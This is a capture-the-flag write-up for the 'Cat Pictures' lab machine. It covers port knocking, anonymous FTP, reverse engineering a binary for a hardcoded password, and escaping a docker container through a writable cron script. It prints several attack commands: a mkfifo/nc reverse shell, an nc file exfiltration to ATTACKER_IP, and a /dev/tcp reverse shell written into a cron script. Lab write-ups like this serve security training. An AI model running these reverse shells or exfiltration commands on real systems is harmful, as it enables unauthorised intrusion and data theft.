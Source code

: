 ```yaml
---
title: "Cat Pictures"
tags:
  - Easy
  - Linux
  - nmap
  - Port Knocking
  - ftp
  - Reverse Engineering
  - docker
---
```


| Difficulty |  |  IP Address   |  |
| :--------: |--| :-----------: |--|
|    Easy    |  |   10.10.21.0  |  |

---

### [ Flag 1 ]

As usual, let's run an `nmap` scan on the target to enumerate the services that it's running.

```
sudo nmap -sC -sV -vv -T4 10.10.21.0
```

From the results, we find out that there are 3 open ports. There are also 2 ports which seem to be hidden behind a firewall:

```
21/tcp   filtered ftp
22/tcp   open     ssh
2375/tcp filtered docker
4420/tcp open     nvm-express?
8080/tcp open http-proxy
```

Looks like we have access to a **SSH** server, a **HTTP** Web server and an unknown service running on port 4420. The **FTP** server is currently inaccessible by us. There is also a **docker** service running on port 2375.

Let's first take a look at the HTTP Web server:

![screenshot1](../assets/images/cat_pictures/screenshot1.png)

We have a forum page that is built on [phpBB](https://www.phpbb.com/). Before we do our happy-path enumeration, let's run a `gobuster` directory scan to see if we can find any hidden directories:

```
gobuster dir -u http://10.10.21.0:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```

I let the scan run for awhile, and it did find many different directories and files, but they were all ultimately of no use to us. 

Let's now check out the post on the webpage:

![screenshot2](../assets/images/cat_pictures/screenshot2.png)

We have a post titled **'Post cat pictures here!'**. We also have an interesting message: 

> Knock knock! Magic numbers: 1111, 2222, 3333, 4444

Hmmmm.... 'Knock knock' and numbers that look like port numbers.... Could this be a port knocking sequence?

---

*Port Knocking is a method of externally opening ports on a firewall by generating a connection attempt on a set of prespecified closed ports. Once a correct sequence of connection attempts is received, the firewall rules are dynamically modified to allow the host which sent the connection attempts to connect over specific port(s).*

---

Perhaps if we were to visit these ports in sequence, we will be able to access the two services that are currently hidden behind the firewall! Let's try it out by visiting these ports in order:

```
telnet 10.10.21.0 1111
telnet 10.10.21.0 2222
telnet 10.10.21.0 3333
telnet 10.10.21.0 4444
```

Once we are done, we can run an nmap scan on the target again:

![screenshot3](../assets/images/cat_pictures/screenshot3.png)

Nice! Access to the **FTP** server has been unlocked. 

From the nmap scan, we also know that the FTP server has **anonymous login** enabled. This means that we can log into it without supplying a password. Let's login and grab the '**note.txt**' file inside:

![screenshot4](../assets/images/cat_pictures/screenshot4.png)

**Contents of note.txt:**

![screenshot5](../assets/images/cat_pictures/screenshot5.png)

We find out that the unknown service running on port 4420 is actually an internal shell service! We also obtain a password:

> sardinethecat

Let's now log into the shell service with our newfound password:

```
nc 10.10.21.0 4420
```

![screenshot6](../assets/images/cat_pictures/screenshot6.png)

And we're in! 

The first thing that I noticed was that the machine was very limited in terms of the commands that it could run. It couldn't run basic commands like `cd`, `whoami` and many others.  In fact, if we look at the /bin directory, we can see that there are only a handful of programs that are installed:

![screenshot7](../assets/images/cat_pictures/screenshot7.png)

With that in mind, let's take a look around.

![screenshot8](../assets/images/cat_pictures/screenshot8.png)

I found a binary called `runme` in the home directory of the **catlover** user. Let's try to run it:

![screenshot9](../assets/images/cat_pictures/screenshot9.png)

Welp, looks like we need to find a way to upgrade our shell. Let's try opening a reverse shell back into our machine.

I tried a few reverse shell payloads from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) before finding one that worked:

``` 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP PORT >/tmp/f
```

![screenshot10](../assets/images/cat_pictures/screenshot10.png)

And we're in yet again! Now we can run the `runme` binary:

![screenshot11](../assets/images/cat_pictures/screenshot11.png)

We need another password. Unfortunately, 'sardinethecat' did not work.

My next thought was to download the binary onto my local machine so that I could analyze it. We can use `nc` (as it is installed on the target machine) and some basic piping to do so:

```
// on local machine
nc -lvnp 5555 > runme

// on target machine
nc ATTACKER_IP PORT < /home/catlover/runme
```

With the binary now on my local machine, I passed it to [Binary Ninja](https://cloud.binary.ninja/) to reverse engineer the code. Once the reverse engineering is completed, I focused on the `main()` function:

![screenshot12](../assets/images/cat_pictures/screenshot12.png)

As we can see, the password is actually exposed in the code:

> rebecca

Let's go back into the target machine and run `runme` again:

![screenshot13](../assets/images/cat_pictures/screenshot13.png)

We now have a private ssh key in catlover's home directory:

![screenshot14](../assets/images/cat_pictures/screenshot14.png)

We can simply cat out the contents of the key, copy it over to a file on our local machine, and use it to log into SSH! *(make sure permissions of the key is either 400 or 600)*

![screenshot15](../assets/images/cat_pictures/screenshot15.png)

Great, we are now logged in as the root user! We can grab the first flag in the /root directory:

![screenshot16](../assets/images/cat_pictures/screenshot16.png)

---

### [ Flag 2 ]

It seem like the flag that we found is not actually the final root flag. I tried using the `find` command to search for the other flag:

```
find / -iname '*flag*' 2>/dev/null
```

However, I was unable to find flag 2.

Remember that `docker` is running on port 2375? Perhaps we are currently in a docker container... We can verify this by looking for a **.dockerenv** file in the root directory:

![screenshot17](../assets/images/cat_pictures/screenshot17.png)

The file is present, which confirms that we are in a docker container! 

Now we need to find a way to break out. From past experiences, this is normally done through a script that is run as a cronjob by the root user outside of the container. Let's look around the machine to see if we can find such a script.

One place I looked was the **.bash_history** file:

![screenshot18](../assets/images/cat_pictures/screenshot18.png)

There's an interesting script called **clean.sh** located in /opt/clean. Let's check it out:

![screenshot19](../assets/images/cat_pictures/screenshot19.png)

Seems like the script is a cleaner script that removes all files in the /tmp directory. It would make sense for such a script to be run as a cronjob, so perhaps this is our ticket out of the docker container.

We also have write permissions to the script, so let's try to replace it with a reverse shell script:

```
echo '/bin/bash -l > /dev/tcp/ATTACKER_IP/PORT 0<&1 2>&1' > clean.sh
```

After a few minutes, the reverse shell was opened and I was logged into the actual target machine as the root user:

![screenshot20](../assets/images/cat_pictures/screenshot20.png)

The final flag can then be found in the /root directory:

![screenshot21](../assets/images/cat_pictures/screenshot21.png)